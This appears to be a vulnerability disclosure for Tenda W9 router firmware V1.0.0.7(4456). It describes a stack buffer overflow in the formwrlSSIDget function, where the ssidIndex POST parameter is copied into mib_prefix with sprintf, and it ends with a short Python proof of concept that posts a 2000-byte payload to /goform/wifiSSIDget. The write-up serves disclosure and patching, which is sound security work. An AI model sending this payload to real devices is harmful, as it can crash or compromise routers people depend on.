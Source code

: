 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2986.html

## Affected version

W9 V1.0.0.7(4456)

## Vulnerability details

In the W9 V1.0.0.7(4456) firmware has a stack overflow vulnerability in the `formwrlSSIDget` function. The `index` variable receives the `ssidIndex` parameter from a POST request. However, since the user can control the input of `ssidIndex`, the statement `sprintf(mib_prefix, "wl2g.ssid%s.", index);` can cause a buffer overflow. The user-provided  `ssidIndex` can exceed the capacity of the `mib_prefix` array, triggering this security vulnerability.

![image-20240419162724188](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162724188.png)

![image-20240419163010466](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419163010466.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/wifiSSIDget"
payload = b"a"*2000

data = {"radio": "2.4G", "ssidIndex": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
